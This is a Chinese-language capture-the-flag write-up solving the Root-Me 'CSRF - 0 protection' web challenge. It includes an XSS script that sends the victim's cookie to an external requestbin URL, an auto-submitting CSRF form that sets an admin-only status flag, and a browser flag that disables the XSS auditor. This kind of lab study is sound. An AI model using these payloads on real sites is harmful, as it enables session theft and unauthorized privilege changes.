

Root-Me [CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
===

該頁面有登入、註冊功能，登入後可以使用 `Contact`、`Profile`、`Private`，三個功能。

## 解題關鍵
1. JavaScript

## 解題過程

### Contact
首先透過 `Contact` 功能，嘗試亂填入資料並送出得到以下訊息。  

```
Your message has been posted. The administrator will contact you later.
```

可想而知，可能是要構造一些惡意的語法，讓管理者去觸發，第一個想到的與上一題一樣，看看是否可以偷到 Cookie，於是構造以下 Payload  

```
<script>
    window.location.assign("http://requestbin.fullcontact.com/1ek6d7k1?cookie=" + document.cookie)
</script>
```

收到的 Requests 也沒有任何參數...，顯然這題不是單純使使用 XSS 偷 Cookie。  


### Private
該頁面僅會顯示如下的訊息。
```
Your account has not been validated by an administrator, please wait.
```

### Profile
該頁面有 `Username` 的 Input box 與 `Status` 的 Check box，但 `Status` 的功能是鎖住的，即便使用開發者模式將他啟用並送出，都會顯示 `You're not an admin!`，到這邊有兩個想法。  

1. 透過 XSS 讓管理者讓特定使用者啟動 `Status`。
2. 透過 XSS 讓管理者將 `Private` 頁面的內容回傳至 `RequestsBin`。

該部分都需要借助 `Content` 的功能，由於確認過沒有任何過濾，可以直接般動整個 `Profile` 的環境，透過開發者工具將 `Profile` 頁面上的 from 程式碼複製下來，並且注意以下改動。  

1. `username` 的參數改為自己的使用者名稱。
2. `status` 加上參數 `on`，並把 `type` 改為 `text`。
3. `form` 加上 `name` 參數
4. 加上最底下的 `submit` 腳本。

```HTML
<form name="attack" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="post" enctype="multipart/form-data">
	<div class="form-group">
		<label>Username:</label>
		<input type="text" name="username" value="123456">
	</div>
		<br>		
	<div class="form-group">
		<label>Status:</label>
		<input type="text" name="status" value="on">
	</div>
		<br>	
	<button type="submit">Submit</button>
</form>
<script>document.getElementsByName("attack").submit()</script>
```

然後筆者的 Opera 就跳以下畫面了。


還是用 Chrome 吧，只是要在啟動路徑上加上 `"C:\Program Files (x86)\....\chrome.exe" --args --disable-xss-auditor` 尾段的參數，才會把 XSS 防禦關閉。  

最後成功送出，並且在 `Private` 頁面得到 Flag。  

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)